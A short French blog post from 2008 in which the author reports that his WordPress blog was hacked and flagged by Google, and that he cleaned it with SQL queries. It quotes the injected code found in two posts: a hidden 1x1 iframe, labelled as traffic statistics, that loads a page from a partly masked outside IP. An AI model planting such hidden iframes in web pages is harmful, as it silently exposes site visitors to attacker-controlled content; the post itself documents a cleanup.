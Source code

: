 ```yaml
---
id: 515
title: 'Ce blog s&rsquo;est fait kacker'
date: 2008-05-12T23:41:08+00:00
author: Régis
layout: post
guid: http://regis.decamps.info/blog/2008/05/ce-blog-sest-fait-kacker/
permalink: /2008/05/ce-blog-sest-fait-kacker/
tmac_last_id:
  - ""
dsq_thread_id:
  - "564520470"
categories:
  - Général
  - Informatique
tags:
  - Hacking
  - Sécurité
---
```

Attention, mon blog a été hacké.

Google indiquait que mon blog était &lsquo;potentiellement dangereux&rsquo;. J&rsquo;ai d&rsquo;abord cru qu&rsquo;ils avaient fumé ; mais en fait non. 

Par exemple, quelques posts contenaient
  
`<br />
<!-- Traffic Statistics --> <iframe src=http://xx.155.8.157/iframe/wp-stats.php width=1 height=1 frameborder=0></iframe> <!-- End Traffic Statistics --><br />
` 

WordPress a connu un certain nombre de failles de sécurité, et j&rsquo;ai un peu de mal à suivre les mises à jour. 

J&rsquo;ai fait le ménage à coup de requêtes SQL. Deux articles étaient concernés:

  * <http://regis.decamps.info/blog/2008/04/liso-approve-loffice-open-xml/>
  * <http://regis.decamps.info/blog/2007/10/boutique-ferrari/>